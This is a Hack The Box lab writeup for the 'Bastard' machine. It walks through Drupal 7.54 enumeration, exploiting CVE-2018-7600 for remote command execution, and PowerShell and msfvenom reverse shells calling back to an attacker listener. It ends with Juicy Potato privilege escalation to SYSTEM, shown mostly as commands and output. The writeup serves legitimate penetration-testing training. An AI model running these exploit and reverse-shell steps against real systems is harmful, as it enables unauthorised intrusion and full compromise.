 ```yaml
---
title: Hackthebox - Bastard
description: writeup of the HTB machine Bastard.
author: rxffsec
date: 2024-08-20 06:25:00 -0600
categories:
  - CTF
  - HTB
tags:
  - writeup
  - drupal
  - potato_privesc
  - clsid
  - hackthebox
image:
  path: /assets/img/htb/bastard/bastard.png
---
```


## Enumeration

Starting with a nmap scan I find three open ports 

```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.9 -oG allPorts -vvvv
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127
```

Visiting the port 80 I find a drupal login panel

![Desktop View](/assets/img/htb/bastard/drupal_login_1.png)


doing a curl to the changelog.txt I'm able to enumerate the version which in this case is 7.54
```bash
$ curl -s -X GET http://10.10.10.9/CHANGELOG.txt  | head

Drupal 7.54, 2017-02-01
-----------------------
```

## shell as iusr 

searching for some exploits I find this [CVE-2018-7600](https://github.com/pimps/CVE-2018-7600) that allows me to get remote command execution on the machine 

```bash
$ python drupa7-CVE-2018-7600.py -c 'whoami' http://10.10.10.9/
[*] Triggering exploit to execute: whoami
nt authority\iusr
```

To get a stable shell I use the base64 powershell reverse shell from [revshells](https://www.revshells.com/) I start a nc listener on port 9001 and receive the connection

```sh
$ python drupa7-CVE-2018-7600.py -c 'powershell -e JABjAGwAa...' http://10.10.10.9/
```

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 51840

PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54> 
```

Enumerating privileges I see that the seimpersonate privilege is enabled which might allow me to use a juicy potato or a similar exploit to elevate privileges

```bash
PS C:\inetpub\drupal-7.54> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\inetpub\drupal-7.54> 
```

## shell as nt authority\system

I create a shell.exe file with msfvenom that will give me a reverse shell 

```shell
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f exe -o shell.exe
```

I download juicy potato and the shell.exe executable files into the target machine 

```sh
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\shell.exe . 
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\jp.exe .
```

I start another nc listener on port 9001 and then I try to run jp.exe with the program shell.exe but it fails

```sh
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p .\shell.exe 
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
```

The reason is that the clsid is wrong so I look for a valid one [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise) I retry the exploit two times until it gives an "OK" response
```shell
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
...........................................
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
....
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\windows\temp\x> 
```

and finally I receive a shell as nt authority\system

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 63808
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```



